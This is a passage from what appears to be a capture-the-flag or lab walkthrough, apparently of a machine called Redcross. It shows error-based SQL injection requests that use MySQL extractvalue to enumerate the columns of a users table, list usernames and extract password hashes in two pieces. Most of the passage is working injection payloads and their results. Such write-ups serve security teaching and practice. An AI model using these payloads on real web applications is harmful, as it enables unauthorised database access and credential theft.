 Getting column names of the _users_ table:
```
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 1,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 2,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 3,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 4,1)))--+-&page=app
```

The column names are:
- _id_
- _username_
- _password_
- _mail_
- _role_

Getting the usernames:
```
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 0,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 2,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 3,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 4,1)))--+-&page=app
```

Usernames:
- _admin_
- _penelope_
- _charles_
- _tricia_
- _guest_

As the output is limited and password hashes in MySQL are longer, getting the passwords of the users will take two requests and the hashes have to be manually put together:
```
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 30)))--+-&page=app

GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 1,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 1,1) FROM 30)))--+-&page=app HTTP/1.1
(...)
```
